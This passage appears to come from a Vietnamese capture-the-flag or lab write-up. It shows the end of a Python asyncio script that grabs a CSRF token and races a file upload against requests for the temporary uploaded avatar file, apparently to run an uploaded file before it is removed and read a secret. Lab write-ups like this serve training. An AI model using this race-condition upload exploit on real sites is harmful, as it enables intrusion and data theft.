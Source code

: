 ```python

        res = await s.get(url=URL_MyAccount)
        csrf = re.search(r'<input required type="hidden" name="csrf" value="(.*)">', await res.text()).group(1)
        data = {
            'user': 'wiener',
            'csrf': csrf,
        }

        # Bắt đầu upload avatar và truy cập file temp avatar
        await asyncio.gather(*([upload_ava(s, data)] + [exec_ava(s, i, data) for i in range(1, 15)]))

if __name__ == '__main__':
    asyncio.run(main())
    time.sleep(1)
```

Chạy chương trình trên, ta lấy được `secret`

![Untitled](writeup_media/Untitled%2023.png)